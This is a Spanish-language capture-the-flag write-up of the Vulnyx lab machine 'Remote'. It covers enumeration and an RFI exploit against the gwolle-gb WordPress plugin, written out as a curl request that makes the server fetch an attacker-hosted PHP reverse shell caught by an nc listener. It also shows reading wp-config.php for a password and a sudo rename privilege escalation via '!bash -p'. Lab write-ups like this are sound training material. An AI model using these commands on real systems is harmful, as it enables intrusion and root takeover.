___
Tags: #wordpress #plugin #gwolle-gb #rename #RFI
___
# Remote

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.** Plugin de wordpress  gwolle-gb 1.5.3 , RFI y SUID <br>
**- Fecha de resolución:** 17/03/2026 <br>
**- Enlace:** [remote](https://vulnyx.com/#remote) <br>

## Reconocimiento

**Vulnyx** nos proporciona la ip de la máquina objetivo **192.168.0.109**

**ARP-SCAN**

```
sudo arp-scan -I eth0 --localnet --ignoredups
```

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 192.168.0.109
```

**Su ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.109
```

<p align="center"> 

</p>

| Open port | Service | Version                                       |
| --------- | ------- | --------------------------------------------- |
| 22        | ssh     | OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0) |
| 80        | http    | Apache httpd 2.4.56 ((Debian))                |
### Enumeración web
#### Gobuster

```
gobuster dir -u http://<ipVictima> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

<p align="center"> 

</p>

La página me saldrá rota, para arreglarlo tendré que mirar el codigo fuente y me saldrá esta página: <font color="#00b050">remote.nyx</font>. Por tanto tendremos que añadir esta página a nuestro archivo **/etc/hosts**

<p align="center"> 

</p>

Realizamos otro enumeración web a la nueva ruta.

```
gobuster dir -u http://remote.nyx/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

<p align="center"> 

</p>

Nos encontramos el panel de login de wordpress

<p align="center"> 

</p>

## Explotación

### Wpscan

```
wpscan --update 
wpscan --url http://remote.nyx/wordpress/ -e u,p  
```

Me detecta el usuario **tiago** intento realiza fuerza bruta para encontrar su contraseña, pero nada.

```
wpscan --url http://remote.nyx/wordpress/ --plugins-detection aggressive -t 50 
```

<p align="center"> 

</p>

Me encuentro con los plugins **akismet** y **gwolle-gb** investigo si encuentro alguna vulnerabilidad.

### Plugin gwolle-gb

Investigando este plugin encuentro en la pagina [exploit-db](https://www.exploit-db.com/exploits/38861) su exploit donde esta url:

```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[ip_atacante]
```

La cosa es que para que funcione el exploit deberia de añadir delante de la url **wordpress** ya que parte de esta url. Por tanto, el comando quedaría:

```
curl -sX GET http://remote.nyx/wordpress/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.0.109
```

Y preparo el servicio http 

```
python3 -m http.server 80
```

<p align="center"> 

</p>

La idea aquí sería crear este archivo **wp-load.php** y que sea una [reverseshell](https://www.revshells.com) con PHP Pentest Monkey

<p align="center"> 

</p>

La idea es tener primero preparado el curl, luego cuando realizo el comando **python3 -m http.server 80** lo ejecuto donde se encuentra el archivo **wp-load.php**, y como tengo preparado una reverse shell, preparo mi puerto de escucha **nc -lvnp 4443** y obtengo acceso

<p align="center"> 

</p>

## Escalada de Privilegios

**Tenemos que conseguir una conexión más estable**

```
python3 -c "import pty;pty.spawn('/bin/bash')"
control z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

### Tiago

Para conseguir el usuario Tiago visitamos la siguiente url, donde se encuetra guarda la contraseña de dicho usuario

```
cat /var/www/html/wordpress/wp-config.php
```

Su contraseña : <font color="#00b050">WPr00t3d123!</font>

```
su tiago
```

<p align="center"> 

</p>

### Root

```
sudo -l
```

<p align="center"> 

</p>

`rename` es un binario que sirve para **renombrar archivos en masa** usando patrones

Intento ejecutar el comando de ayuda

```
sudo -u root /usr/bin/rename -h
```

<p align="center"> 

</p>

Por lo visto el parametro **--man** puedes escribir comandos , para ejecutar comandos necesitas poner poner delante **"!"**

```
!bash -p
```

<p align="center"> 

</p>

## Conclusión

La máquina **Remote** de la plataforma Vulnyx me ha parecido especialmente interesante. Una vez identificado que el plugin **Gwolle Guestbook (gwolle-gb) versión 1.5.3** es vulnerable a un ataque de **RFI (Remote File Inclusion)**, fue posible obtener una shell de manera rápida.

Posteriormente, al revisar el archivo **wp-config.php**, se pudo extraer la contraseña del usuario **Tiago**, lo que permitió avanzar en el sistema.

Finalmente, para la escalada de privilegios a **root**, se aprovechó que el binario **rename** contaba con permisos elevados. Gracias al panel de ayuda del propio binario, se descubrió que el parámetro `--man` permite la ejecución de comandos, lo que facilitó la obtención de privilegios de superusuario.